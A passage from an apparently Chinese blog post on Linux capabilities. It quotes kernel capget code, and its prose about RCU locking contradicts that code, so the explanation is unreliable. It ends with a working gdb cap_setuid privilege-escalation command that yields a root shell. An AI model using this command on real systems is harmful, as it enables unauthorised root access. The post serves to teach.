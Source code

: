 这里代码注释到：由于不能通过`capset`修改其他进程的`caps`信息，能够修改`caps`的只有进程自身，所以在读取`caps`信息时，分为两种情况，当读取自身进程`caps`时，需要`RCU`锁，防止自身进程修改了`caps`信息；而读取其他进程`caps`信息时则不需要。但其实还是有些问题，例如进程A不断`capset`修改自身进程`caps`信息，进程B不断`capget`获取进程A的`caps`信息，就会出现竞争情况。

```c
static inline int cap_get_target_pid(pid_t pid, kernel_cap_t *pEp,
				     kernel_cap_t *pIp, kernel_cap_t *pPp)
{
	int ret;

	if (pid && (pid != task_pid_vnr(current))) {
		struct task_struct *target;

		rcu_read_lock();

		target = find_task_by_vpid(pid);
		if (!target)
			ret = -ESRCH;
		else
			ret = security_capget(target, pEp, pIp, pPp);

		rcu_read_unlock();
	} else
		ret = security_capget(current, pEp, pIp, pPp);

	return ret;
}
```



### Capabilities滥用提权

如果系统管理员错误地给部分程序一些`Cap`，可能造成滥用。

例如，如果`gdb`程序拥有`cap_setuid`权限，可以造成提权

```shell
tree@tree-ubt:$ getcap `which gdb`
/usr/bin/gdb cap_setuid=ep

tree@tree-ubt:$ gdb -nx -ex 'python import os;os.setuid(0);' -ex '!sh' -ex quit
GNU gdb (Ubuntu 9.2-0ubuntu2) 9.2
.....
Type "apropos word" to search for commands related to "word".
# id
uid=0(root) gid=1000(tree) groups=1000(tree),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),121(lpadmin),132)

```




### 参考
